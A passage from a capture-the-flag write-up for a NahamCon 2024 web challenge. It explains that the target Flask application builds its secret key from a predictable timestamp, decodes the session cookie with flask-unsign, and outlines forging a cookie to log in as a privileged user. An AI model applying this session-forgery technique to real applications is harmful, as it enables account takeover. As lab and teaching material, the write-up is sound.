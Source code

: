 Hmm... Looks like we need to **login as user `Jefferson`, `Madison`, or `Burr`**.

Also, as you can see, the web application is using the [Flask](https://flask.palletsprojects.com/en/3.0.x/) web application framework!

**In Flask application, our session token can be seen in our cookie:**
```
session=eyJuYW1lIjoiZ3Vlc3QifQ.ZlAbKw.WzYFGTjPkBHcX_cfXZRslyKwUmY
```

**By using the tool [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign), we can decode the session cookie and see the details of our session token:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.27|14:31:23(HKT)]
└> flask-unsign --decode --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlAbKw.WzYFGTjPkBHcX_cfXZRslyKwUmY'
{'name': 'guest'}
```

In the session token, it has a **`name` claim** with value `guest`.

If we somehow able to **forge the session token**, we can change the `name` claim's value to whatever we want!

**From the backup page, we can know that the Flask application's `secret_key` is generated via:**
```python
from datetime import datetime
[...]
c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'
```

As you can see, the current time was appended to `secret_key`!

**Here's an example of the `secret_key`:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.27|14:32:55(HKT)]
└> python3                                                                                   
[...]
>>> from datetime import datetime
>>> c = datetime.now()
>>> print(c)
2024-05-27 14:37:07.823324
>>> f = c.strftime("%Y%m%d%H%M")
>>> print(f)
202405271437
>>> f'THE_REYNOLDS_PAMPHLET-{f}'
'THE_REYNOLDS_PAMPHLET-202405271437'
```

In here, we can see that **the date is formatted to `YYYYMMDDHHMM`**.

Therefore, we can easily **guess the `secret_key` value**!

When we have the Flask's `secret_key` value, we can **forge our own Flask session cookie**! For instance, we can **sign the forged session cookie `name` claim to user `Jefferson`, `Madison`, or `Burr`!**
